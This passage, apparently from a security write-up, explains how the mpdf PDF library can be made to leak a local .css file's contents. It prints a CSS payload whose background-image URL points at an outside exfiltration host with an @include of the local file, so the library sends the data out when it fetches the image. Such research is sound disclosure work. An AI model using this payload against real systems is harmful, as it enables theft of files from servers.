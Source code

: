 However, if for some reason, your companies secrets were stored in a `.css` file, this method could be used to exfil the data, even without retrieving the PDF.
This happens because we could import it into say the `background-image` property, prepending our own URL as follows:

```css
div {
    background-image: 'https://exfil.hexf.me/?data=@include url(/local/file.css)'
}
```
which when any div at all exists, will trigger the mpdf library to try download the file, noting that the `@include` will be resolved first, causing data to be leaked to us.